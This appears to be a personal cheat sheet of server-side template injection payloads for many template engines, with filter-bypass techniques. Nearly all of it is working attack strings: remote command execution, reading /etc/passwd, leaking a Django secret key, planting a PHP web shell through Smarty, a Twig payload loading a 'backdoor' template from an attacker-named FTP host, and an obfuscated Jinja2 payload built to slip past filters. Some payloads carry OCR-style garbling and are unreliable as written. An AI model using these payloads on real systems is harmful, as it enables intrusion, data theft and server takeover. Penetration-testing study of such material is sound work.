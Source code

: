 # Cheat Sheet testing:
```
Jinja2 (Python Flask/Django): {{ 7*7 }}  
Freemarker (Java):             ${7*7}  
Velocity (Java):          #set($a = 7*7)${a}  
Thymeleaf (Java):              ${7*7}  
Twig (PHP Symfony):           {{ 7*7 }}  
Smarty (PHP):                  {$7*7}  
Mako (Python):                 ${7*7}
```
![Pasted image 20250408092652.png](/mnt/c/Users/kolbe/OneDrive/Obsidian Vault/Cybersecurity/ScreenshotsPasted%20image%2020250408092652.png)

## SSTI Polygot
```
${{<%[%'"}}%\.
```

## FreeMarker (Java):
```
${7*7}=49
```
```
<#assign command="freemarker template utility.Execute"?new()> ${ command("cat /etc/passwd") }
```

## Java:
```
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("") .getPath()}
${class.getResource(" .. / .. / .. / .. / .. /index.htm") .getContent()}
${T(java. lang. System) . geteny ( ) }
${product.getClass() .getProtectionDomain().getCodeSource().getLocation().toURI().re
solve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
```
## Twig (PHP):
```
{{7*7}}
{{7*'7'}}
{{dump (app)}}
{{app. request. server. all| join(',') }}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
```
## Smarty (PHP) :
```
{$smarty.version}
{php}echo `id ; {/php}
{Smarty_Internal_Write_File :: writeFile($SCRIPT_NAME," <? php passthru ($_GET['cmd' ]);
?>",self: : clearConfig())}
```
## Handlebars (NodeJS) :
```
wrtz{{#with "s" as | string| }}
{ {#with "e"}}
{{#with split as
{{this.pop} }
{{this.push (lookup string. sub "constructor" ) } }
{{this.pop}}
{{#with string.split as | codelist| }}
{{this.pop}}
{{this.push "return require('child_process' ) . exec ( 'whoami' ); "}}
{ {this.pop} }
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{ {/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```
## Velocity:
```
#set($str=$class.inspect("java.lang.String").type)
#set ($chr=$class.inspect("java.lang.Character") .type)
#set ($ex=$class.inspect("java.lang.Runtime") .type.getRuntime() .exec ("whoami"))
$ex.waitFor ()
#set ($out=$ex.getInputStream())
#foreach($i in [1 .. $out.available() ])
$str.valueOf($chr.toChars ($out.read()))
#end
```

## ERB (Ruby) :
```
<%= system("whoami" ) %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file' ) .read %>
```

## Django Tricks (Python):
```
{% debug %}
{{settings.SECRET_KEY} }
```

## Tornado (Python) :
```
{% import foobar %} = Error
{% import os %} { {os. system ( 'whoami' ) } }
```

## Mojolicious (Perl) :
```
<%= perl code %>
<% perl code %>
```
## Flask/Jinja2: Identify:
```
{{ '7'*7 }}
{{ [].class.base. subclasses () }} # get all classes
{{''.class.mro() [1].subclasses()}}
{%for c in [1,2,3] %}{ {c.c.c}}{% endfor %}
```

## Flask/Jinja2:
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}
```

## Jade:
```
#{root.process.mainModule.require('child_process') . spawnSync('cat', ['/etc/passwd']) .stdout}
```

## Razor (.Net) :
```
@(1+2)
@{// C# code}
```

### Bypassing filters
#### Blocking: `.`
- (`.`) → Uses `|attr()` to dynamically access attributes:  
```
request.application.__globals__  TURNS INTO: request|attr(‘application’)|attr(“__globals__”)
```

#### Blocking: `__`
- Hex Encoding (`\x5f`) for Underscores (`_`)

#### Blocking: `[]`
- Using `__getitem__()` Instead of `[]`

#### RCE Without `eval()` or `exec()`  
```
__import__(‘os’).popen(‘id’).read()  
```
- Avoids blocked `os.system()` and `subprocess.Popen()`.

#### Example payloads:
Payload to commit RCC (in jinja):
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
- Executes the `id` command
